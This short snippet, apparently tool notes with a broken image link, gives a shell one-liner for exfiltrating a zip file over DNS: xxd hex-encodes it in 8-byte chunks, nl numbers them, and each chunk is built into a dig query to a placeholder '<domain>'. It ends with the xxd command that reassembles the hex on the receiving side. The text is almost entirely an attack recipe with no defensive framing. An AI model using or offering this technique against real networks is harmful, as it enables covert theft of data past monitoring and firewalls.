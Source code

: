 
Exfil using xxd and dig

xxd -p -c 8 4digits.hex.zip |  nl -s"." -nrz -w5 | while read h; do echo dig $h.<domain>; done

Re-assemble packets

xxd -r -p 4digits.hex

